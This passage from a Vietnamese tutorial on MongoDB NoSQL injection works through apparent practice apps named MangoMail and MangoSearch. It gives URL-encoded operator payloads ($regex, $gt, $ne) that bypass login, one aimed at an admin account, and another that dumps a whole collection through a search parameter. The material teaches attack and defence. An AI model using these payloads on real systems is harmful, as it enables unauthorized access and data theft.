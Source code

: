   **Truy vấn MongoDB với `$regex`**:
   ```javascript
   db.users.find({
       email: {$regex: /.*/},
       password: {$regex: /.*/}
   });
   ```
   - Chuyển đổi truy vấn trên sang URL-encoded:
     ```
     email[$regex]=.*&password[$regex]=.*
     ```
   - Kết quả: Bỏ qua xác thực và truy cập vào hệ thống.

5. **Các biến thể khác**:
   - Sử dụng các toán tử khác để khai thác tương tự, ví dụ:
     - `email[$gt]=&password[$gt]=` — bất kỳ chuỗi nào đều “lớn hơn” chuỗi rỗng.
     - `email=admin%40mangomail.com&password[$ne]=x` — nhắm mục tiêu đến tài khoản của quản trị viên với mật khẩu không phải là `x`.

---
# 4. Khai thác dữ liệu kiểu In-Band

1. **Lý thuyết về khai thác dữ liệu In-Band**:
   - Trong cơ sở dữ liệu SQL truyền thống, khai thác dữ liệu kiểu In-Band có thể dẫn đến việc rò rỉ toàn bộ cơ sở dữ liệu. Tuy nhiên, với MongoDB, các cuộc tấn công thường bị giới hạn trong phạm vi của một collection cụ thể vì MongoDB là cơ sở dữ liệu phi quan hệ.

2. **Ví dụ về khai thác trong ứng dụng MangoSearch**:
   - Giao diện của MangoSearch khá đơn giản, với một ô tìm kiếm cho phép người dùng tra cứu thông tin về các loại xoài khác nhau.
   - Khi thực hiện tìm kiếm, ứng dụng gửi một yêu cầu `GET` với truy vấn tìm kiếm trong URL, chẳng hạn như `?q=<từ khóa>`.
   - Phía máy chủ, truy vấn này có thể được thực hiện với MongoDB để tìm kiếm các tài liệu có tên khớp với `$_GET['q']`.

   **Truy vấn ví dụ phía máy chủ**:
   ```javascript
   db.types.find({
       name: $_GET['q']
   });
   ```

3. **Khai thác lỗ hổng để lấy tất cả tài liệu trong collection**:
   - Giả sử truy vấn phía sau máy chủ cho phép chúng ta sử dụng biểu thức chính quy (RegEx), ta có thể thay thế đầu vào của `q` bằng biểu thức RegEx để khớp với tất cả các tài liệu.

   **Truy vấn MongoDB để lấy toàn bộ tài liệu**:
   ```javascript
   db.types.find({
       name: {$regex: /.*/}
   });
   ```
   - Chuyển truy vấn trên thành URL-encoded để gửi yêu cầu qua URL:
     ```
     ?q[$regex]=.*
     ```
   - Kết quả: Ứng dụng trả về toàn bộ danh sách các loại xoài và thông tin tương ứng.

